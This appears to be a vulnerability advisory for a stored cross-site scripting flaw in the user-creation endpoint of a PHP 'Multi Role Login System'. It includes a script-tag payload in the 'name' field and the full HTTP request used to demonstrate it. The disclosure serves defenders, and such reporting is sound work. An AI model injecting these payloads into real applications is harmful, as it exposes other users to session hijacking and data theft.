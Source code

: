 # Stored XSS Vulnerability in Multi Role Login System

### Title: Stored XSS Vulnerability in Multi Role Login System
### Affected Component: /endpoint/add-user.php
### CWE: CWE-79 (Improper Neutralization of Input During Web Page Generation)

### Impact:
The web application has a stored cross-site scripting (XSS) vulnerability in the create user feature. An attacker can insert malicious JavaScript into the "name" parameter, which gets displayed when updating profile details. As a result, when other users view the affected name, the script runs in their browsers, potentially leading to session hijacking, data theft, or other malicious activities.

### Proof of Concept (POC):
Attackers exploit stored XSS by injecting malicious JavaScript into the "name" field during creation of user. For instance, submitting the payload `x<script>alert('PwnedPixel')</script>` displays an alert box upon viewing. This shows that arbitrary scripts can be successfully executed within the application.

#### HTTP Request:
```
POST /multi-role-login-system/endpoint/add-user.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/multi-role-login-system/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

name=x<script>alert('PwnedPixel')</script>&role=admin&username=test&password=test123&confirmPassword=test123

```

### Proof with Screenshot:
![Screenshot 2024-12-27 154317](https://github.com/user-attachments/assets/62be2494-fcce-44c2-8065-c8dbf3440a33)



## **Credits**
> [John Alan Correche](https://github.com/shaturo1337)
